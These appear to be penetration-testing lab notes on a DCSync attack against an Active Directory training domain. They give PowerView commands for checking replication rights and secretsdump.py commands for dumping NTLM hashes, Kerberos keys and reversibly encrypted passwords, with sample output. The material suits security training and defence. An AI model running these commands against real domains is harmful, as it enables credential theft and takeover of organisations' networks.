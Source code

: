 - View `adunn` Group membership
```PowerShell
Get-DomainUser -Identity adunn | Select samaccountname, objectsid, memberof, useraccountcontrol | fl
```

- Use PowerView to confirm the user has required rights
```PowerShell
$sid = $adunn_sid
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

- On PWNBOX, use `secretsdump.py` to extract NTLM hashes and Kerberos keys
```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5

# Options
-just-dc: tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
-just-dc-ntlm: tells the tool to extract NTLM hashes only
-just-dc-user $USER: only extract data for a specific user.
-pwd-last-set: see when each account\'s password was last changed
-history: dump password history, which may be helpful for offline cracking
-user-status: check to see if a user is disabled.
```

- If we check the files created using the `-just-dc` flag, we will see that there are three: one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with [reversible encryption](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) enabled.

- Attackers can find encryption key to decrypt passwords. Key is stored in the registry (Syskey) and can be extraced by a Domain Admin or equivalent. Tools such as secretsdump.py will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync

- Enumerate furether using Get-ADUser on Windows attacking host to check if this setting is enabled
```PowerShell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :

```
